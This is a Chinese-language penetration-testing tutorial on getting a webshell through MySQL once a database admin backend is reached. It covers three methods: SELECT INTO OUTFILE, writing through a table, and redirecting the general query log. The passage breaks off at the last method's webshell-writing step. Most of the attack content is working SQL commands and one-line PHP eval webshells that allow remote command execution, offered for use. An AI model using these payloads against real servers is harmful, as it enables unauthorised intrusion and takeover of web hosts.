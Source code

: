 首先要进入后台，可以通过扫源码配置文件，弱口令，暴力破解，未授权，进入后有三种方法拿shell

1. ###### 正常写，select xxx into outfile/into dumpfile xxx

sql写文件具备三个条件：1.secure_file_priv不能是具体的值，2.用户具备写的权限，3.路径和web导出路径重合或者有文件包含可以访问到

我们首先输入`SHOW VARIABLES LIKE "secure_file_priv"`，查看该值是否不为具体的值（空）

[![HlvPVP.png](https://s4.ax1x.com/2022/02/08/HlvPVP.png)](https://imgtu.com/i/HlvPVP)

发现可以，然后尝试写入/www目录下，但是失败，尝试写入/tmp下，/tmp是默认可写目录

[![Hlv3PU.png](https://s4.ax1x.com/2022/02/08/Hlv3PU.png)](https://imgtu.com/i/Hlv3PU)

```
SELECT "<?php eval(@$_POST['123']); ?>" INTO OUTFILE '/tmp/1.php'
```

[![HlvxiT.png](https://s4.ax1x.com/2022/02/08/HlvxiT.png)](https://imgtu.com/i/HlvxiT)

利用文件包含漏洞，成功getshell

[![HlxEo6.png](https://s4.ax1x.com/2022/02/08/HlxEo6.png)](https://imgtu.com/i/HlxEo6)

[![HlxMyd.png](https://s4.ax1x.com/2022/02/08/HlxMyd.png)](https://imgtu.com/i/HlxMyd)

1. ###### 创建库和表写入webshell

记得先use mysql; 选择数据库

```
    CREATE TABLE test( id text(500) not null);
    INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');
    SELECT id FROM test INTO OUTFILE '/tmp/123.php';
    ---------------------------------------------
    DROP TABLE IF EXISTS test;
```

然后文件包含直接连就可以了

[![H1p9SS.png](https://s4.ax1x.com/2022/02/08/H1p9SS.png)](https://imgtu.com/i/H1p9SS)

1. ###### 全局日志写入（网站目录有写入权限）

1.查看日志是否开启

```
show variables like '%general%';
```

2.开启日志记录

```
SET GLOBAL general_log='on';
```

3.修复日志文件路径

```
set global general_log_file='D:\\phpStudy\\WWW\\shell.php';
```

4.写入webshell
